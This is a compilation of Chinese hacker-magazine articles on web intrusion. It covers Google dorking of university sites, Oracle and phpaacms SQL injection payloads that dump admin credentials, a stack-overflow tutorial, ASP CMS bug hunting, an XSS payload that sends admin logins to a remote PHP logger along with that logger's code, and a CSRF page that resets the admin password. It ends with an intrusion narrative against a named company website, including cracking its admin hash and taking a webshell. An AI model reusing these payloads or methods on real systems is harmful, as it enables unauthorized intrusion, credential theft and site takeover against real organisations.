  sAllowExt = Replace(sAllowExt,"ASP","")
  sAllowExt = Replace(sAllowExt,"CER","")
  sAllowExt = Replace(sAllowExt,"ASA","")
  sAllowExt = Replace(sAllowExt,"CDX","")
  sAllowExt = Replace(sAllowExt,"HTR","")
  sAllowExt = Replace(sAllowExt,"CGI","")
  sAllowExt = Replace(sAllowExt,"ASPX","")
  sAllowExt = Replace(sAllowExt,"ASP.JPG","")
  sAllowExt = Replace(sAllowExt,"CER.JPG","")
  sAllowExt = Replace(sAllowExt,"ASA.JPG","")
  sAllowExt = Replace(sAllowExt,"CDX.JPG","")
  sAllowExt = Replace(sAllowExt,"HTR.JPG","")
  sAllowExt = Replace(sAllowExt,"CGI.JPG","")
  sAllowExt = Replace(sAllowExt,"ASPX.JPG","")
Loop

```

## 1、通用编辑器造成的威胁

相信大家早就听说过ewebeditor和fckeditor这两个编辑器的大名了，对于大学的网站来说，自然也就免不了受它们的连累，我们只需要构造“site:目标站点 inurl:edit | ewebeditor | jeditor”这样的关键词，就可以找到许多相关的链接了，如图2。

我在实践过程中也发现很多网站管理员删除了“预览”功能以提高安全性，预览文件为“admin_style.asp”，如图3。

## 2、备份文件时的疏忽

不知道国内的这些大学网站管理员是怎么考虑问题的，在备份文件的时候往往会弄个web.rar或者“域名.rar”这种很容易被社工出的文件名来作为备份，可想而知，恶意攻击者是很容易猜测到的，于是也就发生了一幕幕的悲剧。在下载了web.rar这种网站的备份文件后，攻击者就可以尽情的分析目录结构或者数据库文件或者地址了，后果不堪设想，如图4。


比如我们通过“ccy/ccy”这个帐号密码的组合就轻易的进入了网站管理后台，如图7。


## 3、后台的帐号危机

伴随着以前风行一时的“or'='or'”或者admin/admin这种弱口令的逐渐逝去，现在的攻击者早就已经不在满足这些，他们往往可以更好的利用社工来判断这些弱口令，比如通过图片我们可以看到“发稿人:lpc”这几个关键词，如图5，那么在谷歌中输入“site:目标站点 intext:发稿人”就可以搜索出许多和他相关的资料了，如图6。之所以这么做，是因为发稿人一般使用的都是后台帐号，只需要把这些发稿人的帐号搞到手，那么就可以尽情的社工了。


## 4、其它的软肋

对于注入漏洞还是无法避免的，攻击者可以很好的利用注入工具再结合谷歌搜索特定的关键词就可以实施攻击了，虽说这种入侵技术已经比较老了，但在攻击者的眼中也还是很有效果的，如图8。

## 5、上传不断

可能是由于部分大学的web程序是由学生们编写的，因此一些上传代码就直接使用了一些以前的CMS代码，对于上传的截断漏洞多的可谓是遍地都是，利用方法就是首先使用win-sockexpert抓取cookie值，如图9，然后使用明小子上传工具（通过NC提交也可以）来进行提交，提交地址就为图9中抓取到的“post”地址，Cookies为上面截取到的cookie信息，如图10，需要提醒大家的是，很多时候明小于上传成功后返回的webshell的地址都不准确，可能需要手工减去几个目录，最终才能得到小马，如图11。


本文我只是对大学教育站点所普遍存在的一些安全问题进行了一个简单的阐述，以后会为大家奉献更好的思路。

# 解密Unicode编码

## 小菜也能玩

前段时间我在网上闲逛的时候看到了关于批处理加密的内容，于是心血来潮就产生了兴趣，就把那个据说可以对批处理和文本进行加密而且对批处理加密后也能正常运行的样本下载回家进行研究。很小的东西，不一会儿就下载完毕了，使用记事本打开，发现其内容类似于一句话木马形式，如图1所示。

我在网上也看过别人对Unicode编码的解密，要编写一个程序什么的，只可惜对我这种对高级语言一窍不通的小菜来说太难了，所以只好自己研究了。我选用一个文本文档进行试验，直接把一个文本图标拖拉到该文件前然后松开鼠标就加密完成了，如图2所示，虽然表面上加密后的文本都是乱码，让人看得头都晕了，但其实不然，它与障眼法没什么区别，经过我半天的研究，发现解密方法有很多，而且也都很简单。


好在我对批处理还是一定研究的，很快就读懂了这个文件是怎么处理的，使用的是什么方法，当看到了FF FE后我也明白了作者使用的是Unicode编码加密。从中可以看出作者很聪明，运用的很灵活。具体的内容就不详细解释了，因为这并非是本文的重点，有兴趣的读者可以自行研究一下。


## 一、工具篇

### 1、Edit

Edit 是微软 1995 年开发的 DOS 文本编辑器，它支持把 Unicode 编码转换成最初的状态。打开 Cmd，输入 `Edit File-Path（文件路径）`，把 FilePath 换成需要解密的文件路径即可，如图 3 所示。


### 2、WinRar

WinRAR 也可以把 Unicode 编码转换成最初状态。先将需要解密的文本压缩为 RAR 文件，打开后右击并选择“查看文件”，即可看到原文（如图 4）。


### 3、WinHex

WinHex 是常见的十六进制编辑器。将文本载入后，把开头的 `FF FE` 用空格的十六进制 `20` 填充并保存，再打开文本即可看到原文（如图 5）。

## 二、语言篇

使用工具解密 Unicode 编码比较简单，下面介绍如何使用脚本语言对 Unicode 编码进行另一类解密。

### 1、Batch Script

思路是判断拖拽进来的文件或命令行参数 `%1` 是否存在，存在则执行 `For` 语句。为处理带空格路径，需要先取短文件名，然后逐行读取并显示，最后 `Pause` 暂停查看结果。

```
@Echo off
Title Test
If Exist "%~FSx1" (
  For /F "Delims=" %%A in (%~FSx1) Do (
    Echo %%A
  )
  Pause>nul
)
```


### 2、VBScript

设置 `Fso` 对象，使用 `OpenTextFile` 打开目标文件，通过 `Do While Not ... Loop` 循环读取每行并拼接，最后用 `Wscript.Echo` 输出。

```
If Wscript.Arguments.Count = 1 Then
  Set Fso = CreateObject("Scripting.FileSystemObject")
  Set Mdb = Fso.OpenTextFile(Wscript.Arguments(0))
  Do While Not Mdb.AtendofStream
    Data = Data + Mdb.ReadLine & Chr(10)
  Loop
  Wscript.Echo Data
End If
```

### 3、Command

最简单的方法是直接用一条 Cmd 命令完成解密，常见可结合 `Type` 等命令实现。


# Oracle 注入初体验

菲 & 王兴东

最近我正在学习Oracle数据库的注入，在此就把学习的经过写下来和大家分享一下，本文的测试环境为.net+Oracle 9i。我是在本地电脑中搭建环境来进行测试的，因为自己搭建的环境方便测试，即使出了错误也能很快的找到原因，搞明白了原因后才能更好的去利用。

我自己使用.net编写了一个存在搜索漏洞的脚本，关于注入原理我简单的说一下，注入的形成是由于程序员在编写代码的时候对获取的值过滤不严，直接带入数据库查询而产生的，这样我们就可以精心构造SQL语句达到攻击的目的，也就形成了注入。

Oracle系统库默认的用户有`Sys`、`System`、`Internal`、`Scott`，前三个用户都是System权限。关于数据库的注释我简单介绍一下：access支持`null`和`%00`注释，Mssql支持`--`和`#`注释，Mysql支持`/* */`注释，而Oracle支持`--`的注释。


图2

### 二、ASP.NET代码

```csharp
protected void Button1_Click(object sender, EventArgs e)
{
    string connuser = "Data Source=HACKER;User ID=scott;password=tiger;Unicode=True";
    string sql = "select * from usertest where name like '%" + TextBox1.Text + "%'"; // 漏洞形成原因

    OracleConnection conn = new OracleConnection(connuser);
    conn.Open();
    OracleCommand comm = new OracleCommand(sql, conn);
    OracleDataReader da = comm.ExecuteReader();
    GridView1.DataSource = da;
    GridView1.DataBind();
}
```

## 一、数据库

Admin和USERTEST表的结构分别如图1、图2所示，Admin表中保存管理员的USERNAME（帐号）、PASSWORD（密码），而USERTEST表中保存了NAME（姓名）、AGE（年龄）、DIZHI（地址）、ZHIYE（职业）。


图1

在实际的注入过程中首先要做的就是判断是否存在注入，关于搜索型的注入我们可以使用“' OR ''=' --”或者“关键字%' and '1'='1' and '%'='”来进行测试，本文我们就使用“张%' and '1'='1' and '%'='”进行测试，查询后的结果如图3所示。


然后我们再输入“张%' and '1'='2' and '%'='”，查询后的结果如图4所示，什么都没有查询出来，因为“and '1'='2'”不成立，所以自然不会查询出结果了。

比较这两个页面返回了不同的数据，由于就可以确定存在注入漏洞。


关于判断字段数，可以使用“order by”，也可以使用NULL一个一个的追加法。使用“order by”判断和在Mysql及sqlserver注入时的用法一样，在搜索框中输入“张%' and '1'='1' and '%'='%' order by 4 --”，返回了正常页面；接着输入“... order by 5 --”，这次返回了错误页面，如图6。


可以确定字段数为4个，接着使用union来爆破字段位置。在Oracle注入点使用union时需要注意Oracle与MySQL、SQLServer不同，Oracle在使用union时必须要有from表名，否则会报错。输入“张%' and '1'='1' and '%'='%' union select '1',2,'3','4' from dual--”，爆出了字段相应的位置，如图7。

在使用Union的时候需要注意两个表之间的类型问题，字段对应的类型必须一致才可以。

在3的位置来爆破版本号，输入“... union select '1',2,(select banner from sys.v_$version where rownum=1),'4' from dual--”，成功爆出了Oracle数据库的版本信息，如图8。


接下来我们再模拟爆出管理员的密码。现在还不知道表名和字段名，先来爆破一下，输入“... union select table_name,2,column_name,'4' from user_tab_columns --”，爆出了当前用户下所有的表名和字段名，如图9。


语句中的table_name是表名，column_name是列名，user_tab_columns表用来存放当前用户的表和字段信息。可以看出admin表中有password和username两列。接下来执行“... union select username,2,password,'4' from admin--”，成功在1和3的位置爆出了账号和密码，如图10。


现在，搞定了管理员的帐号和密码后就可以登录进入后台拿shell了。关于Oracle数据库的注入本文就简单介绍到这里，其实在Oracle注入的时候还有很多技巧，比如如何执行cmd命令，怎么写Webshell等等。

> （文章中涉及到的相关脚本文件已经收录在了光盘中）

## 浅谈phpaacms下 SQL注入的修复

最近在网上有人公布出了关于phpaacms系统的一个注入漏洞，我曾经使用这套cms系统建过网站，对它的代码也比较熟悉。下面我们就来看一下如何简单的修补此漏洞。先来看一下漏洞的成因，在文件show.php中 `$arc = getArticleInfo();` 调用了 `getArticleInfo()` 函数，该函数定义在 `include/common.function.php` 中。

其利用方法就是在浏览器中提交：`http://localhost/show.php?id=-2%20union%20all%20select%201,2,3,4,5,6,7,8,9,10,concat(username,0x3a,password),12,13,14,15%20from%20cms_users--`，我们应该对这个漏洞进行修补。可利用 `is_numeric()` 函数对 `id` 变量进行判断。

`is_numeric()` 是 PHP 的一个函数，定义为：如果变量是数字则返回 TRUE，否则返回 FALSE。修补后的代码如下：

```php
/** 获取文章详情 */
function getArticleInfo($id=0){
    global $db;
    if($id==0){
        if(empty($_GET['id'])){
            return false;
        }else{
            $id=$_GET['id'];
        }
    }
    return $db->getOneRow("select * from cms_article where id='".$id."'");
    // id 未过滤，直接代入 SQL 导致注入
}
```

```php
function getArticleInfo($id=0){
    global $db;
    if($id==0){
        if(empty($_GET['id'])){
            return false;
        }else{
            $id=$_GET['id'];
        }
    }
    if(is_numeric($id)){
        return $db->getOneRow("select * from cms_article where id='".$id."'");
    }else{
        echo "参数错误";
    }
}
```

修复漏洞后，再次在浏览器中提交同样的注入语句，会提示“参数错误”。这种方法适合较小程序；程序员在编写程序时应注意安全问题，防止后续频繁修补漏洞。

# 栈溢出攻击的学习与实践


Kawaru999

## 一、栈结构及形成过程

一个进程可能会被加载到内存中不同的区域去执行，进程运行所使用的内存空间按功能大致可以分成以下四个部分：

- 1. 数据区：用来存储全局变量等。
2. 栈区：用来存储函数之间的调用关系，以保证被调用函数在返回时恢复到母函数中继续执行。
3. 堆区：动态分配与回收是堆区的最大特点，进程能够动态地申请一定大小的缓冲，并在用完之后归还给堆区。
4. 代码区：存储 CPU 所执行的机器码，CPU 会到这个区域来读取指令并执行。

其中栈区是由系统自动维护的，它实现了高级语言中的函数调用。对于 C 语言等高级语言来说，栈区的 PUSH、POP 等平衡栈栈细节是透明的，大家请看下面的代码：

```c
int function_b(int argument_B1, int argument_B2)
{
    int variable_b1, variable_b2;
    variable_b1 = argument_B1 + argument_B2;
    variable_b2 = argument_B1 - argument_B2;
    return variable_b1 * variable_b2;
}

int function_a(int argument_A1, int argument_A2)
{
    int variable_a;
    variable_a = function_b(argument_A1, argument_A2) + argument_A1;
    return variable_a;
}

int main(int argumentc, char **argumentv, char **envp)
{
    int variable_main;
    variable_main = function_a(4,3);
    return variable_main;
}
```

同一个文件不同函数的代码在内存代码区中的分布可能先后有序也可能无序，相邻也可能相隔甚远。当 CPU 在执行调用 function_a 函数时，会从代码区中 main 方法对应的二进制代码区域跳转到 function_a 函数对应的二进制代码区域，在那里取指令并执行；当 function_a 函数执行完闭需要返回时，又会跳回到 main 方法对应的指令区域，紧接着调用 function_a 后面的指令继续执行 main 方法的代码。

这些代码区中精确的跳转都是通过与栈区巧妙配合来完成的，当函数调用发生时，栈区会为这个函数开辟一个新的栈区单元，并将它压入栈中，这个栈区单元中的内存空间会被它所属的函数独占，正常情况下是不会和别的函数共享的。当函数返回时，栈区会弹出该函数所对应的栈区单元。

在函数调用的过程中，伴随着栈区中的操作如下：在 main 方法调用 function_a 后，先在自己的栈区单元中压入函数返回地址，而后为 function_a 创建新栈区单元并压入栈区。在 function_a 调用 function_b 时，同样先在自己的栈区单元中压入函数返回地址，然后为 function_b 创建新栈区单元并压入栈区。在 function_b 返回时，function_b 的栈区单元被弹出栈区，function_a 栈区单元中的返回地址被“露”在栈顶，此时处理器按照这个返回地址重新跳到 function_a 代码区中执行。在 function_a 返回时，function_a 的栈区单元被弹出栈区，main 方法栈区单元中的返回地址被“露”在栈顶，此时处理器按照这个返回地址跳到 main 方法代码区中执行。

每一个函数独占自己的栈区单元空间，当前正在运行的函数的栈区单元总是在栈顶。32 位的 Windows 系统提供了两个特殊的寄存器用于标识位于栈区栈顶的栈区单元：

ESP，栈指针寄存器，其内存放着指向栈区最上面一个栈区单元的栈顶的指针；EBP，基址指针寄存器，其内存放着指向栈区最上面一个栈区单元的底部的指针。ESP 和 EBP 之间的内存空间为当前栈区单元，EBP 标识了当前栈区单元的底部，ESP 标识了当前栈区单元的顶部。

在函数栈区单元中一般包含以下几类重要信息：局部变量，为函数局部变量开辟内存空间。栈区单元状态值，保存前栈区单元的顶部和底部（实际只保存前栈区单元的底部，前栈区单元的顶部能够通过平衡堆栈来计算得到），用来在本帧被弹出后恢复旧上一个栈区单元。函数返回地址，保存当前函数调用前的“断点”信息，也就是函数调用前的指令位置，以便函数返回时能够恢复到函数被调用前的代码区中继续执行指令。

```
; 调用前
push 参数C
push 参数B
push 参数A
call 函数地址   ; call 指令完成两项工作：1、向栈中压入返回地址；2、跳转

; 函数开始处代码形式
push ebp       ; 保存旧栈区单元的底部
mov ebp, esp   ; 栈区单元切换
sub esp, xxx   ; 抬高栈顶，开辟新栈区单元空间
```

- 1. 参数入栈，将参数从右向左依次压入栈区中；
2. 返回地址入栈，将当前代码区调用指令的下一条指令地址压入栈中，供函数返回时继续执行；
3. 代码区跳转，处理器从当前代码区跳转到被调用函数的入口处；
4. 栈区单元调整，具体包括保存当前栈区单元状态值，EBP 入栈并切换到新栈区单元，将 ESP 值装入 EBP，更新栈区单元底部，给新栈区单元分配空间，将 ESP 减去所需空间大小，抬高栈顶类似的操作。

```
add xxx, esp   ; 回收当前的栈区单元
pop ebp    ; 恢复上一个栈区单元底部位置
retn       ;
```

上面的retn主要有两个功能：1、即弹出栈区单元中的返回地址，通常是将返回值保存在EAX中；2、让处理器恢复调用前的代码区，弹出当前栈区单元，恢复上一个栈区单元。具体包括了：1、平衡堆栈的基础上，给ESP加上栈区单元的大小，回收当前栈区单元的空间；2、将保存的前栈区单元EBP值弹入EBP寄存器，恢复出上一个栈区单元；3、将函数返回地址弹给EIP寄存器；4、跳转，按照函数返回地址继续执行母函数。栈区结构就是按照这样的函数调用约定组织起来的。

## 二、栈溢出攻击实践

下面是我自己编写的一个简单的C语言程序（VC6.0编译），我们通过溢出栈区，覆盖函数的返回地址，从而改变程序的执行流程，来达到攻击的效果。程序代码如下：

```c
#include <stdio.h>
#define PWD "1234567"

int verify_pwd (char *pwd)
{
    int right;
    char buf[8];
    right=strcmp(pwd,PWD);
    strcpy(buf,pwd);//over flowed here!
    return right;
}

main()
{
    int flag_valid=0;
    char pwd[1024];
    FILE * fp;
    if(!(fp=fopen("pwd.txt","rw+")))
    {
        exit(0);
    }
    fscanf(fp,"%s",pwd);
    flag_valid = verify_pwd(pwd);
    if(flag_valid)
    {
        printf("incorrect pwd!\n");
    }
    else
    {
        printf("Good Job! Verification passed!\n");
    }
    fclose(fp);
}
```

首先使用OD加载得到的可执行PE文件，阅读反汇编代码，可以得知通过验证的程序分支的指令地址为0x00401122，如图1。0x00401102处的函数调用就是verify_pwd函数，之后在0x0040110A处将EAX中的函数返回值取出，在0x0040110D处与0比较，然后决定跳转到提示验证错误的分支或是提示通过验证的分支，提示通过验证的分支是从0x00401122处的参数压栈开始。

通过OD的调试，发现栈区单元中的变量分布情况基本没变，这样就能按照下面的方法来构造pwd.txt中的数据：为了字节对齐并且方便辨认，将“4321”作为一个串块。buf[8]共需要2个这样的单元，第3个串块将right覆盖，第4个串块将前栈区单元EBP值覆盖，第5个串块将函数返回地址覆盖。为了将第5个串块的ASCII码值（0x34333231）改为通过验证分支指令的地址（0x00401122），可以借助十六进制编辑工具来完成（我使用的是UltraEdit），因为部分ASCII码所对应符号无法使用键盘输入。


图1

新建一个名为pwd.txt的文件，并且使用记事本打开它，输入5个“4321”，如图2所示，保存后，关闭记事本并使用UltraEdit打开该文件，如图3所示。


图2


图3

将UltraEdit的编辑模式切换到十六进制，如图4所示，然后将最后的4个字节改为新的函数返回地址，如图5。

此时再切换回文本编辑模式，发现最后的4个字节所对应字符显示结果为乱码，如图6所示，不用管它，把pwd.txt保存后，使用OD加载程序并调试，程序的运行结果如图7所示。

## 三、学习心得

能够看懂二进制是研究安全技术所必需的一项技能，信息安全技术不仅需要计算机理论基础很扎实，更需要优秀的动手和实践能力，毕竟这是一个对技术性要求很高的领域。缓冲区溢出攻击的理论我很早就已经学习过了，以为只是修改返回地址将CPU指到缓冲区中的恶意代码而已，然而当我自己动手实验时，才发现实际情形要比原理复杂很多。这个行业需要有强烈的兴趣作为动力，更要有为了实现梦想而持之以恒的坚定意志才行。

# 安全技术挖0day

在前几期的菜鸟学堂上，txcbg为我们介绍了如何搭建asp的测试环境。今天我就带领各位菜鸟朋友们如何在搭建好的环境中进行代码的分析测试。

## 一、测试前的准备

我们先安装一下Dreamweaver，它是一个很强大的集网页制作和管理网站于一身的所见即所得网页编辑器，能极大地方便我们对代码的阅读。下载地址：http://www.onegreen.net/Soft_Url.asp?UrlID=1&SoftID=4779。

- 1. 注入漏洞：它有数字型、字符型与搜索型三种，针对不同的注入，利用方法也有点不同。
- 2. 上传漏洞：虽然上传漏洞07年就被挖掘了出来，但现在普及率仍然很高，主要从上传路径与上传扩展名的处理这两个方面去分析。
- 3. 暴库漏洞：曾经风靡一时，现在比较少见。
- 4. 后台管理文件未做权限限制，没有判断管理员是否登录，或者用cookie来判断。
- 5. 各种XSS的利用。

## 二、分析代码，寻找漏洞

这次用来演示的cms是我从网上下的一个小型人才系统，漏洞比较多，所以给大家介绍挖掘方法的时候比较方便。

首先浏览首页，用来辨别显示的是news.asp，打开后在第23行处，我们发现：

```
Set rsnews=Server.CreateObject("ADODB.RecordSet")
sqlnews="select * from 新闻 where 类型<>'委托招聘' and id="&request("id")
rsnews.Open sqlnews,conn,1,1
```

id直接被asp的request对象获取，没有进行任何的过滤转换就进行了sql查询，这就形成了数字型的注入漏洞了（如图1）。很轻松地就被猜解出了用户名和密码。

现在我们还可以利用Dreamweaver的搜索功能搜索request来查看客户端提交的数据是否被处理，或者处理不完全（如图2）。测试发现这个小cms中绝大部分提交的变量都没有经过处理。

对于sql注射的分析我们就进行到这里，由于比cms没有上传功能，接下来我们来看看后台管理中是否存在没有进行权限判断的页面。我们主要从包含文件与权限判断文件去分析。通过分析发现很多页面中都加了“<!--#include file="adminconn.inc"-->”，打开adminconn.inc，代码如下：

```
asp
Server.ScriptTimeout=999999

if session("adminuser")="" then
    response.redirect "./error.asp?error=011"
```

对权限的判断用到了session，如果是cookie我们就可以本地欺骗来获得管理员权限。在left.asp中没有做任何的判断，直接打开，如图6，但由于其它页面都做了session判断，这就比较鸡肋了，不过也能起到一个信息收集的作用嘛。

下面我们来看看是否存在搜索型注入，这也是比较普遍的。由于用来搜索的页面代码有点多，这里就不贴出源代码了。分别搜索“1%' and 1=1 and '%'='” 、 “1%' and 1=2 and '%'='”发现前者返回正常而后者返回错误，说明存在注入。针对搜索型注入我们可以用HDSI，我们先搜索一个正常的关键词如“1”，用Winsock Expert来抓取一下数据包，抓取到的数据（如图4）。我们可以发现key是用来传递搜索关键词的变量的，我们将其移到后面其中“&”是用来连接多个变量的连接符的，修改后填入到HDSI中（如图5）。

## 三、小结

好了对这个小cms的分析就进行到这里了，其它存在的漏洞就等着大家去挖掘啦。相信只要勤总结，勤挖掘，下一个0day发现者就是你哦。

> （本文所涉及到的CMS程序已收录到光盘中）

# XSS、CSRF 攻击入门

Mickey

最近做WEB渗透测试，发现注入真的很少了，看了看漏洞公告，可以看出XSS、CSRF还是比较常见的，也看到了几篇利用XSS、CSRF成功攻击的案例，网络上也有不少XSS利用工具了，比如xssshell、beef等等，看来我比较落伍了，所以要学习下基础的……

# 黑客研究院

知识，尽快掌握这2种攻击方法。

## 一、程序演示

学习，最好有个demo程序，我就选用zen-photo来做演示吧。先看看他后台登陆文件admin.php：

```
if (!zp_loggedin()) {
    $from = isset($_GET['from']) ? $_GET['from'] : null;
    printLoginForm($from);
    echo "\n</body>";
    echo "\n</html>";
    exit();
} else { /* Admin-only content safe from here on. */
    printLogoAndLinks();
}
```

可以看出，由GET过来的from参数没有经过任何的过滤，就放到printLoginForm函数里了，我们再来看看admin-function.php里的printLoginForm函数的细节。

```
function printLoginForm($redirect=null, $logo=true) {
    global $_zp_login_error, $_zp_captcha;
    if (is_null($redirect)) { $redirect = "/" . ZENFOLDER . "/admin.php"; }
    ...
    <form name="login" action="#" method="post">
    <input type="hidden" name="login" value="1" />
    <input type="hidden" name="redirect" value="<?php echo $redirect; ?>" />
```

传过来的$redirect直接放到form表单里了，只不过这里用了hidden属性。这些代码的实际显示效果，我们可以通过使用firefox的web dev插件来看（如图1）。

我们来构造一个xss测试语句（如图2）。

```
http://127.0.0.1/zenphoto/zp-core/admin.php?from="><script>alert(/hackerxfiles/)</script><div id="
```

先使用“>”闭合input的“<”，然后写入script脚本，最后新建一个层，防止网页上有错误的信息，这些信息都可以通过查看网页的源代码看的清清楚楚（如图3）。

## 二、应用实例

测试成功后，我们看看最基础的利用方式，欺骗管理员点击一个连接，然后把管理员引到登陆页面，当管理员输入账户信息提交的时候，实际是提交到我们远程记录账户信息的php脚本了，代码如下：

```
http://127.0.0.1/zenphoto/zp-core/admin.php?from="><script>document.forms[0].action="http://192.168.1.33/hk.php";</script><div id="
```

192.168.1.33就是我远程的存放记录账户信息的php服务器，hk.php的具体代码如下：

```
<?php
function redirect()
{
    header("Location: http://192.168.1.52/zenphoto/zp-core/admin.php");
    exit;
}
if($_POST)
{
    ...
}
```

```
php
$file = fopen('mickey.txt','a');
if(!$file) redirect();
fwrite($file,"---=[{$_SERVER['REMOTE_ADDR']}]===\r\n");
foreach($_POST as $key => $value)
    fwrite($file, "$key=$value\r\n");
fwrite($file,"\r\n");
fclose($file);
redirect();
?>
```

代码很简单，就是记录远程提交过来的参数信息和值，然后保存到 mickey.txt 文件。为了不引起管理员的怀疑，最后再通过 header 函数，把页面重定向到管理员页面，管理员会再次输入正确的密码，才能进入后台。这个是最简单的记录脚本，是有缺陷的，比如不能判断管理员第一次输入的密码是否正确，php 学的好的同学可以改进下。

这种攻击方法是当管理员没有登陆后台的情况下进行的，如果管理员已经登陆后台管理了，我们可以利用 csrf 攻击技术，来让管理员访问我们构造的 csrf 页面的时候，修改当前管理员的密码。借助 firefox 的 live http header 插件，可以很容易的抓出当 zen-photo 程序添加管理员的时候，提交的参数细节（如图4）。

图4

表单是通过 post 来提交的，所以只要在远程的 php 脚本里写入如下的内容。

```
php
$inputs = array(
  "saveadminoptions" => "true",
  "totaladmins" => "1",
  "alter_enabled" => "1",
  "0-adminuser" => "admin",
  "0-confirmed" => "2",
  "0-adminpass" => "hacker",
  "0-adminpass_2" => "hacker",
  "0-admin_rights" => "1",
  "0-options_rights" => "1",
  "0-zenpage_rights" => "1",
  "0-tags_rights" => "1",
  "0-themes_rights" => "1",
  "0-all_album_rights" => "1",
  "0-edit_rights" => "1",
  "0-comment_rights" => "1",
  "0-upload_rights" => "1",
  "0-view_rights" => "1",
  "0-main_rights" => "1",
  "0-admin_name" => "hacker@hackerxfiles.net",
  "0000-admin_email" => "help"
);
$action="http://192.168.1.52/zenphoto/zp-core/admin-options.php?action=saveoptions";
echo "<html><head><script>function badboy(){document.forms[0].submit();}</script></head>";
echo "<body onload=\"badboy()\"><form action=\"$action\" method=\"POST\">";
foreach($inputs as $key => $value)
  echo "<input name=\"$key\" value=\"$value\" type=\"hidden\"/>";
echo "</form></body></html>";
?>
```

这样当管理员已经登陆到后台后，再访问这个 php 脚本页面，就会修改其当前的密码为 hacker 了。

# 国内企业站点CMS漏洞解析

[along] 广西建院计协

现在越来越多的中小企业都加入到电子商务浪潮中，企业在网络中建立了展示销售平台，在由网络带来便利的同时，也带来了网络的另一面——网络信息安全。

## 一、国内网站制作的现状

目前，我们经常在网络上看到800元建站、500元建站之类的广告，在外行人看来，800元建立的网站和我花4000元建立的网站好像没多大的区别，但内行人一看就知道其中存在的猫腻。一个网站从开始策划立项到最后的测试上线，花的时间至少也要半个月。加上其中的美工设计，后台的程序编写，程序功能测试，到最后的完成上线，所花费的人力物力又是多少呢？如果按照一个网站800元计算，不算域名和空间费，一个月开发两个网站，也就是1600元，这样下来，我们的网页设计制作人员只能喝西北风了。

于是，为了节约成本，程序那部分也就省了吧，反正网络上到处都有源码下载，至于美工，看得过去就行了吧，反正网络的资源都共享，改几个字又可以忽悠一个客户。800元？不，800元不收你的，500元就可以。什么？网络安全？只要客户将钱交齐了，谁还黑就去黑吧。作为我们的企业客户，看到自己企业的网站上线，似乎就以为自己进入到电子商务时代了，到网站出了问题的时候，当初说客户就是上帝的设计师，现在反而变成上帝了。这样的事情在我们身边并不少见，下面我以一些案例去说明。

## 二、实际站点测试

我们来到国内著名的设计网站（我爱设计网），进入全球酷站栏目，点击企业酷站，可以看到有很多制作得非常棒的站点，大多以FLASH站和ASP为主，可以说是精品中的精品。但我们现在不是要寻找灵感，而是要测试它们的安全性，随便点击一个进去（如图1）。

我们知道在大多数的企业网站底部都可以找到网站的设计者的链接，我们点链接来看下一厦门某科技有限公司。进入到官方主页来看对方的案例，发现都是美工极佳的酷站，如果在安全方面也没什么大问题的话，那可绝对就是精品中的精品了。我们在检测之前先对其案例进行大概的浏览，发现后台登录地址都是一样的，都是/admin/login.asp这样的链接（如图2），站点我们欣赏的差不多了，那就开始检测吧。

### 漏洞一

选择一个目标，比如暴龙太阳镜（http://www.bolon.cn），程序语言使用的是asp，后台登录地址和上面分析的一样（www.bolon.com/admin/login.asp），我们先对目前动态网站最有可能存在的SQL注入漏洞进行检测，检测结果表明基本的注入漏洞都已经进行了防范（如图3）。

既然注入这条路已经被封锁了，那是不是就没有办法了呢，来尝试一下社会工程学吧，猜一下弱口令，来到后台登录界面，利用常见的用户名admin和密码admin888进行测试，发现已经改了默认密码。就在最后准备放弃的时候，想到了以前最常见的登录验证漏洞——万能密码“or'='or”，我们现在面对的这个后台登录界面看起来做的如此专业并且还有验证码，是否也存在这个漏洞呢？经过测试答案是肯定的，我们成功的登录了进去（如图4）。同时还发现其默认的登录账户为admin，默认密码是123456，再经过测试发现该公司的案例中基本都存在此漏洞。

### 漏洞二

进入了后台，我们要拿WEB权限就简单的多了，经过测试发现其后台都使用了cwebeditor编辑器，该编辑器的功能非常强大（如图5）。找到编辑器的登录界面，添加木马的ASP后缀，这样就可以上传木马成功获取WEB权限，但遗憾的是编辑器后台管理的路径被删除或修改，而且数据库路径也被修改了，暂时打断了我们前进的步伐，但是在后台看到有一个“文件上传管理”的链接，点击后可以查看具体上传的文件，记得以前的文章中曾经提到过当ewebeditor的数据库为只读的时候，我们可以通过上传文件管理来列目录的办法查看网站的文件，不知道这里是否存在这样的漏洞，来测试一下吧（如图6），可以看到漏洞确实存在。

### 漏洞三（人为漏洞）

编辑器的登录地址被修改了而没有被删除，这样我们后台拿WEB权限的希望又出现了，登录的地址是http://www.bolon.cn/admin/editor/admin_login_zyt.asp，但是当我满怀希望使用默认的密码登录时发现密码是错误的，数据库的路径被修改了，真是困难重重啊，但是难不倒我们，不是还可以列目录吗！找到数据库的路径，然后下载数据库，再破解MD5密码即可。当我们查看数据库时，发现用户名和密码都是MD5加密过的“9cc197539d872b23”，但是拿到号称最强大的MD5查询网站上进行破解的时候，结果返回的是Not found，本着检测的原则，到这里就应该结束了，但是本着黑客不达目的不放弃的原则，我的破解欲望再次被激起了，暴力破解？不，我们还可以利用社会工程学呢。

来分析一下，登录的地址是admin_login_zyt.asp，是在正常地址的后面加zyt，那密码是否也是这样的组合呢，幸运女神再次降临，测试adminzyt加密后的结果就是9cc197539d872b23，终于登录进去了，通过修改上传的类型，成功的拿到了我们想要的webshell（如图7）。

### 漏洞四

进入我们的WEBSHELL查看源代码，发现在admin目录下存在一个1.asp文件，其内容是：

```
asp
<%
session("admin")="true"
session("adminPower")=1
session("admin")="true"
response.redirect("index.asp")
%>
```

学习过ASP的朋友一看就知道是怎么回事了，直接不用验证而是访问这个文件就直接session赋值而进入到后台，呵呵，这个应该是程序员为了方便而留在上面的吧，但在站点投入使用后却没有被删除，此为漏洞四。

### 漏洞五

既然我们可以看到源码了，那就黑白盒一起来测试，我们回到后台，发现有一个备份数据库的地方，以往的经验告诉我，这个地方很多时候都可以被利用，但是经过测试后发现，可以定义数据库的路径却无法定义数据库的后缀（如图8）。

这也就意味着我们即使是上传木马通过数据库还原得到了木马，但依然是没有办法拿到WEBSHELL，但是在测试别的案例中却发现有部分后缀是ASP，这也就为我们获得WEB权限提供了可能性；最后使用数据库还原的办法就可以拿到我们想要的WEBSHELL了，这个算不算是漏洞呢，如果算是的话，那就是漏洞五吧。

综上所述，要拿下其它站点的后台或SHELL应该不难了吧！

